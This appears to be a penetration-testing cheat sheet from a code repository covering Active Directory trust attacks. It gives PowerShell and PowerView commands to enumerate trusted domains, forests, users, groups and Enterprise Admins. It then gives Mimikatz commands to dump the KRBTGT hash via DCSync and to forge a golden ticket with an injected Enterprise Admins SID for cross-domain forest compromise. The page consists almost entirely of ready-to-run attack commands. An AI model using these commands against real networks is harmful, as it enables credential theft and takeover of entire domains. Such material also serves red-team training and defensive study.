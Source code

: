 Get trusted domains

```powershell
nltest /trusted_domains

([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()

Get-DomainTrust -API [-Domain anotherdomaininforest.com] (WIN32)

Get-DomainTrust [-Domain anotherdomaininforest.com] (LDAP)
```

Enumerate users in a trusted domain / forest with PowerView

```powershell
Get-DomainUser -Domain domain.com
```

Enumerate groups in a trusted domain / forest with PowerView

```powershell
Get-DomainGroup -Domain domain.com
```

Get users in Enterprise Admins group of root domain

```powershell
Get-DomainGroupMember -Identity "Enterprise Admins" -Domain domain.com
```

## Forest compromise

Dump KRBTGT

```plaintext
lsadump::dcsync /domain:d.x.com /user:d\krbtgt
```

Generate domain SID

```powershell
Get-DomainSID -Domain d.x.com
```

Generate golden ticket with ExtraSides (obtaining Enterprise Admins role in trusted domain) <destination domain SID with "-519" appended>

```plaintext
kerberos::golden /user:h4x /domain:domain.com /sid:S-1-5x /krbtgt:x /sids:S-1-5-21-x-519 /ptt
```

## Beyond forest enum

Get forest trusts

```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()

Get-ForestTrust
```

